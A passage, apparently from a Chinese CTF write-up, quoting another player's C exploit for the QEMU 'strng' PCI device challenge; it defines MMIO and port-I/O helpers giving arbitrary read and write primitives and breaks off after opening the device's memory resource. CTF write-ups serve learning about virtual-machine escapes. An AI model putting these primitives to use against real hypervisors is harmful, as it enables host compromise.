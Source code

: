 环境是`ubuntu18.04 libc2.27`

大佬的exp:

```c
#include <assert.h>
#include <fcntl.h>
#include <inttypes.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <unistd.h>
#include<sys/io.h>

unsigned char* mmio_mem;
uint32_t pmio_base=0xc050;

void die(const char* msg)
{
    perror(msg);
    exit(-1);
}

void mmio_write(uint32_t addr, uint32_t value)
{
    *((uint32_t*)(mmio_mem + addr)) = value;
}

uint32_t mmio_read(uint32_t addr)
{
    return *((uint32_t*)(mmio_mem + addr));
}

uint32_t pmio_write(uint32_t addr, uint32_t value)
{
    outl(value,addr);
}


uint32_t pmio_read(uint32_t addr)
{
    return (uint32_t)inl(addr);
}

uint32_t pmio_arbread(uint32_t offset)
{
    pmio_write(pmio_base+0,offset);
    return pmio_read(pmio_base+4);
}

void pmio_abwrite(uint32_t offset, uint32_t value)
{
    pmio_write(pmio_base+0,offset);
    pmio_write(pmio_base+4,value);
}

int main(int argc, char *argv[])
{
    
    // Open and map I/O memory for the strng device
    int mmio_fd = open("/sys/devices/pci0000:00/0000:00:03.0/resource0", O_RDWR | O_SYNC);
    if (mmio_fd == -1)
        die("mmio_fd open failed");
```